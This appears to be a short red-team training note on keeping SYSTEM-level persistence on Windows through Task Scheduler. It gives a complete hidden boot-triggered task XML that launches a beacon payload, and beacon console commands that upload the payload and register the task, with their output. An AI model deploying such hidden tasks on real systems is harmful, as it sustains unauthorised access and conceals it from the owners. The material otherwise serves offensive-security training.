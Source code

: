 The Windows Task Scheduler can execute tasks as SYSTEM as well as standard users.  When elevated privileges has been achieved on a machine, the adversary can maintain that level of access by creating a task that will re-execute a payload on a trigger of their choosing.

The following XML will add a task that will run under the context of SYSTEM when the computer boots up.

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
	<Triggers>
		<BootTrigger>
			<Enabled>true</Enabled>
		</BootTrigger>
	</Triggers>
	<Principals>
		<Principal>
			<UserId>NT AUTHORITY\SYSTEM</UserId>
			<RunLevel>HighestAvailable</RunLevel>
		</Principal>
	</Principals>
	<Settings>
		<AllowStartOnDemand>true</AllowStartOnDemand>
		<Enabled>true</Enabled>
		<Hidden>true</Hidden>
	</Settings>
	<Actions>
		<Exec>
			<Command>C:\Windows\System32\beacon_x64.exe</Command>
		</Exec>
	</Actions>
</Task>
```

```powershell
beacon> cd C:\Windows\System32
beacon> upload C:\Payloads\beacon_x64.exe
beacon> schtaskscreate \Beacon XML CREATE

createTask hostname: taskpath:\Beacon mode:2 force:0
Got user name and security descriptor
Valitdated task
Created task path
Registered task
SUCCESS.
```